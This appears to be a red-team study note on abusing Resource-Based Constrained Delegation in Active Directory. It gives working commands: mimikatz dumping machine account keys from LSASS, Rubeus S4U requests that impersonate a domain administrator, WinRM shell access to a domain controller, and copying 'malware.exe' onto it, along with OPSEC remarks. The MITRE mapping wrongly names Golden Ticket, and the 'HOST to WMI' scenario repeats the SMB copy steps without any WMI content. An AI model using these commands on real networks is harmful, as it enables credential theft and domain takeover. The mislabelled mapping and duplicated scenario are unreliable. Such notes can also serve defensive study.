


> [!abstract] Resource-Based Constrained Delegation (RBCD) Attack
> **Resource-Based Constrained Delegation (RBCD)** is a modern Active Directory feature that moves the control of delegation to the **back-end resource** (the target). Instead of a Domain Admin configuring what a front-end service can access, the resource itself specifies who can impersonate users against it. Attackers abuse this if they have `WriteAccountRestrictions` (or `GenericWrite`/`GenericAll`) on a target computer object, allowing them to grant themselves delegation rights and take over the target machine.
> **MITRE ATT&CK Mapping:** [T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) | [T1558 - Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)



## Concept & Differences

> [!info] Traditional vs. Resource-Based Delegation
> - **Traditional Constrained Delegation:** Configured by Domain Admins on the *front-end service*. It uses the `msDS-AllowedToDelegateTo` attribute to explicitly list which back-end services the front-end can access.
> - **Resource-Based Delegation (RBCD):** Configured on the *back-end resource*. It uses the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify which front-end services are allowed to delegate to it.

> [!success] Default Privileges Required for Attack
> - **Domain Admins / Enterprise Admins:** Have full control over all objects.
> - **The Attack Vector:** If an attacker compromises an account that has `GenericWrite`, `GenericAll`, or `WriteAccountRestrictions` on a target computer object, they can modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to grant delegation rights to a machine account they control.

### RBCD Attack Flow Diagram



---

## Configuration & Enumeration

> [!example]+ Configuring RBCD (If you have permissions)
> You can configure RBCD using the Active Directory PowerShell module.
> ```powershell
> Install-WindowsFeature RSAT-AD-PowerShell
> ipmo ActiveDirectory
> 
> # Allow PCmachine$ to delegate to DCmachine$
> Set-ADComputer -Identity DCmachine -PrincipalsAllowedToDelegateToAccount PCmachine$
> ```

> [!tip]+ Enumeration
> Check if a target machine is configured for RBCD.
> ```powershell
> Install-WindowsFeature RSAT-AD-PowerShell
> ipmo ActiveDirectory
> 
> # Check the PrincipalsAllowedToDelegateToAccount property
> Get-ADComputer -Identity DCmachine -Properties PrincipalsAllowedToDelegateToAccount
> ```

---

## Exploitation: Forging Tickets with Rubeus

> [!danger]+ Step 1: Obtain Machine Account Hash
> To perform S4U requests, you need the hash of the machine account you control (e.g., `PCmachine$`).
> ```powershell
> # Dump machine account keys from LSASS
> Invoke-mimikatz -command '"privilege::debug" "lsadump::ekeys"'
> ```

> [!bug]+ Step 2: Pass the Ticket (S4U & AltService Abuse)
> Using Rubeus, we perform S4U2Self and S4U2Proxy. The `/altservice` flag is extremely powerful as it allows us to switch the SPN in the ticket (e.g., from LDAP to HTTP or CIFS) without the KDC strictly validating the service type, enabling access to WINRM, SMB, or WMI.

> [!warning]+ Scenario 2.1: LDAP to WINRM (HTTP)
> Request a ticket for LDAP, but use it for HTTP to gain WinRM access.
> ```powershell
> .\Rubeus.exe s4u /user:PCmachine$ /aes256:<AES256_KEY> /msdsspn:ldap/viclab-dc.sinabndr.local /altservice:HTTP /impersonateuser:administrator /ptt
> 
> # Access the target via WinRM
> winrs -r:DCmachine.domain.local cmd.exe
> ```

> [!warning]+ Scenario 2.2: CIFS to SMB
> Request a ticket for CIFS to access file shares and copy payloads.
> ```powershell
> .\Rubeus.exe s4u /user:PCmachine$ /aes256:<AES256_KEY> /msdsspn:cifs/viclab-dc.sinabndr.local /impersonateuser:administrator /ptt
> 
> # Access the C$ share
> dir \\DCmachine.domain.local\c$
> 
> # Copy malware to the target
> echo F | xcopy \\PCmachine.domain.local\c$\malware.exe \\DCmachine.domain.local\c$\Users\Public /y
> ```

> [!warning]+ Scenario 2.3: HOST to WMI
> Request a ticket for HOST to execute WMI queries (and potentially lateral movement).
> ```powershell
> .\Rubeus.exe s4u /user:PCmachine$ /aes256:<AES256_KEY> /msdsspn:HOST/viclab-dc.sinabndr.local /impersonateuser:administrator /ptt
> 
> # Access the C$ share
> dir \\DCmachine.domain.local\c$
> 
> # Copy malware to the target
> echo F | xcopy \\PCmachine.domain.local\c$\malware.exe \\DCmachine.domain.local\c$\Users\Public /y
> ```

> [!warning]+ Scenario 2.4: HTTP to WINRM
> Request a ticket directly for HTTP to access WinRM.
> ```powershell
> .\Rubeus.exe s4u /user:PCmachine$ /aes256:<AES256_KEY> /msdsspn:HTTP/viclab-dc.sinabndr.local /impersonateuser:administrator /ptt
> 
> # Access the target via WinRM
> winrs -r:DCmachine.domain.local cmd.exe
> ```

> [!info] OPSEC Notes
> - RBCD requires a machine account (or an account with an SPN) to perform the S4U requests.
> - The `/ptt` (Pass-the-Ticket) flag injects the forged ticket directly into the current PowerShell session's memory, allowing immediate execution of `winrs` or `dir`.
> - Modifying the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the target computer generates **Event ID 5136** (Directory Service Changes).

